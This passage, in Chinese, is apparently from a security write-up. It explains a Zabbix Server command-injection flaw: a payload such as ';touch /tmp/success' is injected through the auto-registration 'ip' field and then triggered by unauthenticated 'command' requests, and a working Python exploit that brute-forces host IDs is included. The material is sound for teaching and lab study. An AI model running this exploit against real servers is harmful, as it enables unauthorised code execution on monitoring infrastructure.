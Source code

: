 `active checks`是 Agent 主动检查时用于获取监控项列表的命令，Zabbix Server 在开启自动注册的情况下，通过 `active checks` 命令请求获取一个不存在的 host 时，自动注册机制会将 json 请求中的 host、ip 添加到 interface 数据表里。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```json<br>{"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>``` |

第二条数据：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```JSON<br>{"request":"command","scriptid":1,"hostid":10001}<br>``` |

`command` 指令可以在未授权的情况下可指定主机 (hostid) 执行指定脚本 (scriptid)，Zabbix 存在 3 个默认脚本，脚本中的 `{HOST.CONN}` 在脚本调用的时候会被替换成主机 IP。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br># scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1<br># scriptid == 2 == /usr/bin/traceroute {HOST.CONN} 2>&1<br># scriptid == 3 == sudo /usr/bin/nmap -O {HOST.CONN} 2>&1<br>``` |

`scriptid` 指定其中任意一个，`hostid` 为注入恶意 Payload 后的主机 id，但自动注册后的 `hostid` 是未知的，所以通过 `command` 指令遍历 `hostid` 的方式都执行一遍，最后成功触发命令注入漏洞。

由于默认脚本的类型限制，脚本都是在 Zabbix Server 上运行，Zabbix Proxy 是无法使用 command 指令的。payload 长度受限制可拆分多次执行，必须更换 host 名称以执行新的 payload。

EXP 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```python<br>import sys<br>import socket<br>import json<br>import sys<br><br><br>def send(ip, data):<br>    conn = socket.create_connection((ip, 10051), 10)<br>    conn.send(json.dumps(data).encode())<br>    data = conn.recv(2048)<br>    conn.close()<br>    return data<br><br><br>target = sys.argv[1]<br>print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>for i in range(10000, 10500):<br>    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})<br>    if data and b'failed' not in data:<br>        print('hostid: %d' % i)<br>        print(data)<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print](assets/1699408100-d649aa30848faf9a516888421b5dced0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print](assets/1699408100-35f5b3e66a526e3019174e2507a4b734.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print")

### [](#24-cve-2020-11800---%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)2.4 CVE-2020-11800 - 命令注入
